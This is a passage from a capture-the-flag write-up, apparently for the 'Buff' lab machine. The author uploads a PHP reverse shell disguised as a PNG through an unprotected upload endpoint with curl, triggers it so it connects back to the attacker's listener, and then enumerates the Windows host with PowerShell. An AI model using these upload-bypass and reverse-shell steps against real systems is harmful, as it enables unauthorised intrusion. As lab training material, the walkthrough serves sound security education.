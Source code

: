Let's upload our PHP file to the endpoint `/upload.php` with the `id` set to the
filename we want to upload.

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.198:8080/upload.php?id=revshell" -X "POST" -F "file=@/workspace/revshell.php.png;type=image/png" -F "pupload=upload"
```

Then, let's trigger our `revshell.php` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.198:8080/upload/revshell.php"
```

And if we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.198] 49676
<SNIP>
C:\xampp\htdocs\gym\upload>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `shaun`.

### Architecture

What is Buff's architecture?

```ps1
PS C:\xampp\htdocs\gym\upload> Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" | Select-Object -ExpandProperty "PROCESSOR_ARCHITECTURE"
```

```
AMD64
```

It's using AMD64. Let's keep that in mind to select the appropriate binaries.

### Version

Let's gather some information about the Windows version of Buff.

```ps1
PS C:\xampp\htdocs\gym\upload> Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion" | Format-List -Property "ProductName", "CurrentBuildNumber"
```

```
ProductName        : Windows 10 Enterprise
CurrentBuildNumber : 17134
```

In fact, it's Windows 10 build `17134`.
